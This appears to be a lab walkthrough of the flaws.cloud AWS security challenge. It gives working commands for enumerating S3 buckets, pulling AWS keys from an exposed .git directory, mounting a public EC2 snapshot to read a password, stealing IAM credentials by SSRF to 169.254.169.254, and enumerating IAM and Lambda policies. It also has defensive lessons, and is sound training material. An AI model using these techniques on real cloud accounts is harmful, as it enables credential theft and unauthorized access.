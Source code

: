 # http://flaws.cloud/

# Level 1: This level is *buckets* of fun. See if you can find the first sub-domain.
Find first subdomain:
- The `hint 1` said that this site http://flaws.cloud/ is hosted as an S3 bucket. So I think we should find the bucket name of this S3. The facts also said that: When hosting a site as an S3 bucket, the bucket name (flaws.cloud) must match the domain name (flaws.cloud).
- Let's try this site flaws.cloud as a bucket name.
- Using the AWS CLI tool: `aws s3 ls s3://flaws.cloud`, when using this CLI tool, You do not need to know the region where the s3 bucket is hosted, so with above command, if the bucket is exist, you can see the bucket file. 
- The other way: http://flaws.cloud.s3.amazonaws.com/
- Get `secret file`: `http://flaws.cloud.s3.amazonaws.com/secret-dd02c7c.html`. Chall done.
- Lesson learn: One tip to check wheather a site is hosted as an S3 bucket: Using nslookup command, if you see the IP point to s3 nameserver -> s3 bucket
# Level 2: Same Level1:
- Using command: `aws s3 ls s3://level2-c8b217a33fcf1f839f6f1f73a00a9ae7.flaws.cloud`
- Checking the secret file: http://level2-c8b217a33fcf1f839f6f1f73a00a9ae7.flaws.cloud.s3.amazonaws.com/secret-e4443fc.html
# Level 3: 
- Using command: `aws s3 ls s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud`
- Found /.git -> using gitdumper: `./gitdumper.py http://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/.git 
- or sync this bucket to local: `aws s3 sync s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/ . --no-sign-request --region us-west-2`
- git checkout > get secret key, access key ID. 
- Using command `aws --profile flaws configure` to configure new profile with these key
# Level 4: 
For the next level, you need to get access to the web page running on an EC2 at 4d0cf09b9b2d761a7d87be99d17507bce8b86f3b.flaws.cloud

- The website is runing on EC2 instance, the facts also said that a snapshot was made of that EC2.
- Let's check the snapshot using aws cli with above profile:
- Get account-ids: `aws --profile flaws sts get-caller-identity`.
- Get snapshot by accound-id: `aws ec2 describe-snapshots --profile flaws --owner-id 975426262029` 
- Create volumn from snapshot: `aws ec2 create-volume --availability-zone us-west-2b --region us-west-2  --snapshot-id snap-0b49342abd1bdcb89`
- Attach volumn to instance:
   - Create ec2: I'm using aws console
   - Attach volumn to ec2 you just created.
- Connect to the EC2 instance
- Mount disk: mount /dev/<> /mnt
- Cat password: cat /mnt/home/ubuntu/setupNginx.sh
- Lesson learned: 
AWS allows you to make snapshots of EC2's and databases (RDS). The main purpose for that is to make backups, but people sometimes use snapshots to get access back to their own EC2's when they forget the passwords. This also allows attackers to get access to things. Snapshots are normally restricted to your own account, so a possible attack would be an attacker getting access to an AWS key that allows them to start/stop and do other things with EC2's and then uses that to snapshot an EC2 and spin up an EC2 with that volume in your environment to get access to it. Like all backups, you need to be cautious about protecting them.
# Lesson 5: SSRF AWS steal aws key
- This EC2 has a simple HTTP only proxy on it. via access a website through http://chall-url/proxy/website.
- This website do not validate the url from user, so we can perform an SSRF to specified IP:`169.254.169.254` to get key information about IAM user.
- http://4d0cf09b9b2d761a7d87be99d17507bce8b86f3b.flaws.cloud/proxy/169.254.169.254/latest/meta-data/iam/security-credentials
- http://4d0cf09b9b2d761a7d87be99d17507bce8b86f3b.flaws.cloud/proxy/169.254.169.254/latest/meta-data/iam/security-credentials/flaws
- Add key to aws configure file: `/.aws/credential`
- List level 6 bucket: `aws s3 ls s3://level6-cc4c404a8a8b876167f5e70a7d8c9880.flaws.cloud --profile flaws`

- Lession learned:
The IP address 169.254.169.254 is a magic IP in the cloud world. AWS, Azure, Google, DigitalOcean and others use this to allow cloud resources to find out metadata about themselves. Some, such as Google, have additional constraints on the requests, such as requiring it to use `Metadata-Flavor: Google` as an HTTP header and refusing requests with an `X-Forwarded-For` header. AWS has recently created a new IMDSv2 that requires special headers, a challenge and response, and other protections, but many AWS accounts may not have enforced it. If you can make any sort of HTTP request from an EC2 to that IP, you'll likely get back information the owner would prefer you not see.
Examples of this problem
Nicolas GrÃ©goire discovered that prezi allowed you point their servers at a URL to include as content in a slide, and this allowed you to point to 169.254.169.254 which provided the access key for the EC2 intance profile (link). He also found issues with access to that magic IP with Phabricator and Coinbase.
A similar problem to getting access to the IAM profile's access keys is access to the EC2's user-data, which people sometimes use to pass secrets to the EC2 such as API keys or credentials.
Avoiding this mistake
Ensure your applications do not allow access to 169.254.169.254 or any local and private IP ranges. Additionally, ensure that IAM roles are restricted as much as possible.

# Level 6: http://level6-cc4c404a8a8b876167f5e70a7d8c9880.flaws.cloud/ddcc78ff
- Get Username: `aws --profile level6 iam get-user` : Level6
- Get attached inline polices to this user: `aws iam list-attached-user-policies --user-name Level6 --profile level6`: list_apigateways, MySecurityAudit
- Get version to get detail about policy:
- `aws iam list-policy-versions --policy-arn arn:aws:iam::975426262029:policy/list_apigateways --profile level6`

- `aws iam get-policy-version --policy-arn arn:aws:iam::975426262029:policy/list_apigateways --version-id v4 --profile level6`
- See hidden resource: `"Resource": "arn:aws:apigateway:us-west-2::/restapis/*"`

- `aws iam get-policy-version --policy-arn arn:aws:iam::aws:policy/SecurityAudit --version-id v35 --profile level6`

- List lambda function: `aws lambda list-functions --profile level6`
- get policy details:  `aws --profile level6 lambda get-policy --function-name Level6`. Because the MySecurityAudit policy allow this :D
`{
    "Policy": "{\"Version\":\"2012-10-17\",\"Id\":\"default\",\"Statement\":[{\"Sid\":\"904610a93f593b76ad66ed6ed82c0a8b\",\"Effect\":\"Allow\",\"Principal\":{\"Service\":\"apigateway.amazonaws.com\"},\"Action\":\"lambda:InvokeFunction\",\"Resource\":\"arn:aws:lambda:us-west-2:975426262029:function:Level6\",\"Condition\":{\"ArnLike\":{\"AWS:SourceArn\":\"arn:aws:execute-api:us-west-2:975426262029:s33ppypa75/*/GET/level6\"}}}]}", 
    "RevisionId": "98033dfd-defa-41a8-b820-1f20add9c77b"
}
`
--> The `rest-api-id` is `s33ppypa75`
--> Next, using this command `aws apigateway get-stages --rest-api-id s33ppypa75 --profile level6` to get stage.
- The REST APIs will look like: `https://{restapi_id}.execute-api.{region}.amazonaws.com/{stage_name}/`
--> the final url is: https://s33ppypa75.execute-api.us-west-2.amazonaws.com/Prod/level6
http://theend-797237e8ada164bf9f12cebf93b282cf.flaws.cloud/d730aa2b/

`Lesson learned`
It is common to give people and entities read-only permissions such as the SecurityAudit policy. The ability to read your own and other's IAM policies can really help an attacker figure out what exists in your environment and look for weaknesses and mistakes.
`Avoiding this mistake`
Don't hand out any permissions liberally, even permissions that only let you read meta-data or know what your permissions are.`
